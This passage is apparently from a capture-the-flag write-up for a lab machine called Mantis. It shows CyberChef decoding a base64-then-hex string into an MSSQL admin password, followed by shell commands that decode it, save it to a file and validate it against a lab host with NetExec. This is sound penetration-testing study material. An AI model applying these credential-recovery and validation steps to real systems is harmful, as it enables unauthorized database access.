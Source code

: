 <figure><img src="../../../.gitbook/assets/mantis_cyberchef_1.png" alt=""><figcaption><p>Figure 3: CyberChef automatically recognizes the string as base64 encoded and decodes it. </p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/mantis_cyberchef_2.png" alt=""><figcaption><p>Figure 4: CyberChef automatically identifies the decoded string as hex and procceeds to decode it once again to plaintext.</p></figcaption></figure>

We can confirm the results on our terminal, save the password into a file, and validate the credentials.

{% code overflow="wrap" %}
```bash
# base64 decoding and hex to ASCII convertion
$ echo "NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx" | base64 -d | xxd -r -p
m$$ql_S@_P@ssW0rd!
# writing the password into a file
$ echo "m\$\$ql_S@_P@ssW0rd!" > admin_pass
# validating the credentials
$ nxc mssql 10.10.10.52 -u admin -p admin_pass --local-auth
MSSQL       10.10.10.52     1433   MANTIS           [*] Windows 7 / Server 2008 R2 Build 7601 (name:MANTIS) (domain:MANTIS)
MSSQL       10.10.10.52     1433   MANTIS           [+] admin:********
```
{% endcode %}
